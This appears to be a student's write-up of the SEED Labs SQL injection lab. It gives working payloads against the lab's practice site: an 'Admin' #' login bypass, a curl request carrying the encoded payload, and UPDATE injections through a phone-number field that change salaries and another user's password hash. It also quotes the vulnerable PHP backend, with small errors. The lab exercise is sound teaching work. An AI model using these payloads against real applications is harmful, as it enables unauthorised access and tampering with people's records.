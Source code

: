 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code
```sql

		mysql -u root -pseedubuntu
    
		mysql> use Users;
    
		mysql> show tables;
    
	Use such a SQL query:
  ```
  
//code

	```sql

		select * from credential where Name='Alice';

	```

![Untitled](Pics/task1.png)

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code

		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
		FROM credential
    
		WHERE name='Admin' #' && password='xyz'
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

![Untitled](Pics/task2.2.png)

--> Task 2.3

	inject statment to append a row to current database:
  
//code

```sql

	INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
	After row inserted, go to browser and input as:
  
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
	.PASSWORD: "" (blank field)

![Untitled](Pics/task2.3.png)

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  ![Untitled](Pics/task3.2.png)
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code


```js
	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!=''){
		
		// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
		//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
		// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();
	```

Updation will be on Phone Number field;

Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6
  
Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
  
Save it and changes works accordingly. 

![Untitled](Pics/task3.3.png)

